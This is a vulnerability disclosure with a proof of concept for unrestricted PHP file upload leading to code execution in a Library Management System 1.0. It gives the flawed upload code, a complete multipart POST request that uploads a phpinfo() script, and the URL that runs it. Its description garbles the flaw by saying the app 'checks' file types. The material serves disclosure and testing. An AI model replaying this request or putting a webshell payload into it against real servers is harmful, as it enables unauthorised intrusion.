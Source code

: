 #### Title: Library Management System with QR code Attendance 1.0 File Upload RCE
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.md
#### Description：
#### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which may lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.

#### $uploaddir = 'assets/uploads/';
#### $uploadfile = $uploaddir . basename($_FILES['image']['name']);

#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /LMS/card/index.php HTTP/1.1
Host: localhost
Content-Length: 1056
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryngJP5BxPA6UsA91O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/LMS/card/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close

------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="name"

File_Upload
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="grade"

Computer Studies
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="dob"

Student
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="address"

Testing Testing
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="email"

ashish@cyberthoth.in
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="exp_date"

1990-02-11
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="id_no"

8529637
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="phone"

1212121212
------WebKitFormBoundaryngJP5BxPA6UsA91O
Content-Disposition: form-data; name="image"; filename="File_upload.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryngJP5BxPA6UsA91O--
```

#### Access below URL:
`http://localhost/LMS/card/assets/uploads/File_upload.php`

![image](https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/File_Upload/POC.png)